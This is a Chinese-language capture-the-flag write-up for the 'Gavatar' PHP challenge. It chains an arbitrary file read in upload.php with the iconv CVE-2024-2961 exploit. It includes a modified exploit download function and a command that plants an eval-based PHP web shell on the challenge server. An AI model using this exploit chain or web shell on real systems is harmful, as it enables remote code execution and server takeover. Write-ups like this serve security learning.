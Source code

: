 +++
date = '2025-02-11T23:00:00+08:00'
draft = false
title = '[2025]N1junior-WP'
author='GSBP'
categories=["WP"]

+++

## Gavatar

一个php服务

这里看upload.php有着很明显的任意文件读的漏洞，只需要post一个url参数就可以

```
if (!empty($_FILES['avatar']['tmp_name'])) {
    $finfo = new finfo(FILEINFO_MIME_TYPE);
    if (!in_array($finfo->file($_FILES['avatar']['tmp_name']), ['image/jpeg', 'image/png', 'image/gif'])) {
        die('Invalid file type');
    }
    move_uploaded_file($_FILES['avatar']['tmp_name'], $avatarPath);
} elseif (!empty($_POST['url'])) {
    $image = @file_get_contents($_POST['url']);
    if ($image === false) die('Invalid URL');
    file_put_contents($avatarPath, $image);
}
```

flag也不能直接读，需要rce调用/readflag，然后就开始想能不能和其他php文件下的漏洞一起利用

也是没有其他能够接着利用的漏洞了，然后看到php版本是8.3.4，就想到那个iconv的漏洞利用

https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

因为不是直接返回文件内容，而是需要我们从`avatar.php`中获取，这里需要稍微改一下脚本中的download函数，要提前注册一个用户，然后把session和user填上即可

```
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        self.send(path)
        response=self.session.get("http://39.106.16.204:20871/avatar.php?user=123")
        print(response)
        data = response.text
        return base64.decode(data)
```

然后跑exp就好了

```
python test.py http://39.106.16.204:20871/upload.php "echo '<?=@eval(\$_POST[0]);?>' > shell.php"
```

![image-20250211210919337](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250211210919337.png)
